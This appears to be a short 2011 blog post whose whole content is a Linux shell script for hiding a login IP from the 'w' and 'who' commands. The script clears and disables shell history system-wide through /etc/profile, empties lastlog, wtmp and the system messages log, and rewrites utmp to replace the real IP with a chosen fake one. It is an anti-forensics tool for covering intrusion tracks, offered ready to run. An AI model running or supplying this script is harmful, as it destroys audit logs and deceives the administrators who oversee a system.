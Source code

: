 ```yaml
---
title: 'linux hide ip from w , who command'
date: '2011-09-30 10:05:00'
---
```


#!/bin/sh  
#parameter $1 : current ip  
#parameter $2 : new ip  
#usage ./name.sh 192.168.1.100 8.8.8.8  
  
history -c  
rm -rf ~/.bash\_history  
echo "unset HISTFILE" >> /etc/profile  
cat /dev/null > /var/log/lastlog  
cat /dev/null > /var/log/wtmp  
cat /dev/null > /var/log/messages  
sed "s/$1/$2/g" /var/run/utmp > ./utmp.new  
mv ./utmp.new  /var/run/utmp  
echo "Done ..."  
echo "View Result w:"  
w  
  

